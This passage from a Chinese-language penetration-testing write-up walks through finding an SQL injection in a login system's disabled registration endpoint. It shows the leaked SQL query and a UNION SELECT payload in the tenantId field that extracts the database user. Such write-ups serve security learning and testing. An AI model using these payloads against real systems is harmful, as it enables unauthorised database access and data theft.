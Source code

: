 接下来我们修改username、password的长度，发现皆有提示为：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4016rymUJCXNrnN6iclPt9UGrj1NFAk8fVSfp40Kur84oOfoXsmUyNRoGt9cW8kpboiceehicsgCV6w/640?wx_fmt=png&from=appmsg "")  
  
账户长度必须在2到20个字符之间。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4016rymUJCXNrnN6iclPt9U60hvibkQJB8UHTknDGUCmwiaxQ8VQtLNJmvsIY9u3P09FE8eM6jiaHstg/640?wx_fmt=png&from=appmsg "")  
  
用户密码长度必须在5到20个字符之间。  
  
于是我们可以确认，注册接口是存活的，但是注册功能没有开启，因为我们的请求体的数据，确实后端处理，并返回给我们结果。  
  
注册接口sql注入  
  
此时其实可以大胆猜测，前面我的login处无法进行sql注入，因为后端可能重点关注的是用户名和密码并做了强过滤，很难找到注入点。  
  
但是，注册接口已经被禁止了，并且提示是**当前系统没有开启注册功能**  
，可以得到的结论是，我们的请求体一定发送到了后端，那么后端有以下2种逻辑：  
  
先将请求体传递给服务器处理，创建账号并存入数据库，  
**检查**  
是否开启注册功能，如果没有开启，则账号不启用，并返回没有开启注册功能。  
  
先将请求体传递给服务器处理，先**检查**  
是否开启了注册功能，如果没有开启，直接弃用并返回没有开启注册功能。  
  
注意，以上都涉及到了**检查**  
操作，如果是第一种情况，那么我们的请求体，肯定也会被sql语句加载进数据库进行查询，比如是否重复注册、符合规范等等。  
  
如果是第二种情况，数据库里可能有表项是用于设置是否开放注册的，比如register:value，value可能是0或1，也可能是false或true。  
  
接下来，构造请求包  
```
{"tenantId":"'","username":"1sssss","password":"sdsdawdssx.","rememberMe":true,"clientId":"e5cd7e4891bf95d1d19206ce24a7b32e","grantType":"password"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4016rymUJCXNrnN6iclPt9UeK9xa2dpX5kO86GSNsUOXxnZPic2OOsxu6peIcjFMVv1fGDbBf7XOJA/640?wx_fmt=png&from=appmsg "")  
  
提示报错，很明显的报错注入，并且sql语句为：  
```
SQL: SELECT config_id, config_name, config_key, config_value, config_type, remark, tenant_id, create_dept, create_by, create_time, update_by, update_time FROM sys_config WHERE (config_key = ?) AND tenant_id = '''
```  
  
发现共有12列，开始使用union尝试找出数据库名  
  
payload：  
```
{"tenantId":"'UNION SELECT 1,2,3,4,5,6,7,8,9,database(),11,12 -- -","username":"1sssss","password":"sdsdawdssx.","rememberMe":true,"clientId":"e5cd7e4891bf95d1d19206ce24a7b32e","grantType":"password"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/RjOvISzUFq4016rymUJCXNrnN6iclPt9UF5joRxUvMPFakAydTdrD041kHa26JxVTYHyXNicNvjwXLrjngAvn8Zg/640?wx_fmt=jpeg&from=appmsg "")  
  
得到root@localhost，成功注入。  
  